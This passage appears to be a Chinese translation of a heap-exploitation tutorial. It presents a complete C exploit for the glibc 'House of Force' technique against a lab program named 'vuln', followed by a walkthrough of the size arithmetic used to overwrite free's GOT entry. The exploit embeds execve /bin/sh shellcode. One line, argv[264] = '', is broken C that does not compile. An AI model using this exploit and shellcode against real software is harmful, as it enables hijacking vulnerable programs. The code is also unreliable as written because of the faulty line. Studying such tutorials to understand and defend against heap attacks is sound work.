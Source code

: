 利用程序：

```c
/* Program to exploit executable 'vuln' using hof technique.
 */
#include <stdio.h>
#include <unistd.h>
#include <string.h>

#define VULNERABLE "./vuln"
#define FREE_ADDRESS 0x08049858-0x8
#define MALLOC_SIZE "0xFFFFF744"
#define BUF3_USER_INP "\x08\xa0\x04\x08"
                
/* Spawn a shell. Size - 25 bytes. */
char scode[] =
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
        
int main( void )
{       
        int i;
        char * p;
        char argv1[ 265 ];
        char * argv[] = { VULNERABLE, argv1, MALLOC_SIZE, BUF3_USER_INP, NULL };
        
        strcpy(argv1,scode);
        for(i=25;i<260;i++)
                argv1[i] = 'A';
        
        strcpy(argv1+260,"\xFF\xFF\xFF\xFF"); /* Top chunk size */
        argv[264] = ''; /* Terminating NULL character */ 

        /* Execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```

漏洞程序的堆内存，一旦攻击者的命令行参数复制到堆中：

![4](http://upload-images.jianshu.io/upload_images/118142-364ad75c69d3eff7.png)

使用攻击者的参数，下面的事情会发生：

行`[2]`会覆盖 top 块大小：

+   攻击者的参数（`argv[1] – Shellcode + Pad + 0xFFFFFFFF`）会复制到堆缓冲区`buf1`。但是由于`argv[1]`大于 256，top 块的大小会覆盖为`0xFFFFFFFF`。

行`[3]`使用 top 块代码，分配了一个非常大的块。

+   非常大的块的分配请求发生在分配之后，新的 top 块应该位于`free`的 GOT 条目之前 8 个字节处。所以另一个 malloc 请求（行`[4]`）会帮助我们覆盖`free`的 GOT 地址。
+   攻击者的参数（`argv[2] – 0xFFFFF744`)会作为大小参数，传递给第二个 malloc 调用（行`[3]`）。大小参数使用下面的公式计算：
    +   `size = ((free-8)-top)`
    +   其中
        +   `free`是可执行文件`vuln`的 GOT 条目，也就是`free = 0x08049858`。
        +   `top`是当前 top 块（在第一个 malloc `[1]`之后），也就是`top = 0x0804a108`。
    +   因此`size = ((0x8049858-0x8)-0x804a108) = -8B8 = 0xFFFFF748`。
    +   当`size = 0xFFFFF748`时，我们的任务，将新的 top 块放置在`free`的 GOT 条目之前 8 个字节处，像这样完成了：
        +   `(0xFFFFF748+0x804a108) = 0x08049850 = (0x08049858-0x8)`
    +   但是，当攻击者传递大小参数`0xFFFFF748 `时，glibc malloc 将这个大小转换为可用大小`0xFFFFF750 `。因此，现在新的 top 块大小应该位于`0x8049858`而不是`0x8049850`。因此攻击者应该传递`0xFFFFF744 `作为大小参数，而不是`0xFFFFF748 `，因为他会转换为我们所需的可用的大小`0xFFFFF748`。
    